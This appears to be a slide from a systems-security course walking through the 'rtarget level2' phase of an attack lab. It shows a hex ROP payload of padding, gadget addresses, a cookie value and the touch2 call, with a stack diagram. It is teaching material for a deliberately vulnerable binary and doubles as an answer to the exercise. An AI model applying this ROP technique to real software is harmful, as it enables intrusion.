

# 任务4： rtarget level2
/* Pop to rax */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
4d 20 40 00 00 00 00 00
/* Stack data = 0x59b997fa */
 fa 97 b9 59 00 00 00 00
/* Move from rax to rdi */
 42 20 40 00 00 00 00 00
/* Call target function */
 2f 1e 40 00 00 00 00 00

40204d
…
buf[39-32]
buf[31-24]
…

rSP
Touch2地址
402042
cookie
buf[7-0]
 -12-